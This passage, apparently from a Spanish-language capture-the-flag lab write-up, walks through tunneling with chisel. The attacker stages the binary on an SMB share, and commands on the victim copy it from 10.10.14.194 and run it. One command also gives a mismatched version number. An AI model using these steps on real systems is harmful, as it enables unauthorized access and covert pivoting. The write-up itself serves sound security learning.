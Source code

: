 Probablemente debamos hacer `SQLi` o incluso `fuzzing` para encontrar otras tablas, pero intentando por consola no logre nada, además podemos pensar que el output es más grande y ejecutándolo por consola no nos lo muestra completo, quizás por medio de la web obtengamos algo diferente, hagamos el `Remote Port Forwarding`, usaré [chisel](https://github.com/jpillora/chisel):

* [Uno de los recursos en que me guie](https://infinitelogins.com/2020/12/11/tunneling-through-windows-machines-with-chisel/).
* [S4vitar también tiene un video explicándolo](https://www.youtube.com/watch?v=0rmG5EneRuQ&t=4440s).

**Atacante (server):**

En [su repo](https://github.com/jpillora/chisel/releases) descargar en binario para:

* **Windows**: `chisel_1.7.6_windows_amd64.gz`. 
* **Linux**: `chisel_1.7.6_linux_amd64.gz`. 

> (Esto para tener la misma version en los dos binarios y que no nos genere problemas de compatibilidad)

```bash
#Para montarnos el server más adelante
❭ gunzip chisel_1.7.6_linux_amd64.gz
❭ mv chisel_1.7.6_linux_amd64 chisel
❭ chmod +x chisel

#El binario a subir en la máquina Windows (descargado del repo)
❭ gunzip chisel_1.7.6_windows_amd64.gz
❭ upx chisel_1.7.8_windows_amd64 #Hacemos el binario un toque más liviano
❭ mv chisel_1.7.6_windows_amd64 chisel.exe
❭ python3 smbserver.py smbFolder $(pwd) -smb2support
...
```

**Victima (cliente):**

```powershell
PS C:\Users\development\Videos> copy \\10.10.14.194\smbFolder\chisel.exe C:\Users\development\Videos\chisel.exe
PS C:\Users\development\Videos> .\chisel.exe

  Usage: chisel [command] [--help]

  Version: 1.7.6 (go1.16rc1)

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel

```

**Atacante (server):**

